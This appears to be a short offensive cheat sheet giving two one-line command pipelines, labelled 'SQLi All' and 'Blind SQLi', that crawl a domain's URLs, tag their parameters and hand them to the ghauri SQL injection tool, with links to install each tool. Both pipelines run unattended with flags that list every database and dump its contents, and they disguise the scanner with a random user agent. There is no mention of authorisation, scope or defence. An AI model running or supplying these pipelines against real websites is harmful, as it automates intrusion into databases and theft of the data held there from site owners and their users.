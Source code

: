 ### SQLi All
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --level=3 --dbs --dump --batch
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/r0oth3x49/ghauri" target="_blank">ghauri</a></p>

### Blind SQLi
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --level=3 --technique=BT --batch --dbs --dump
```
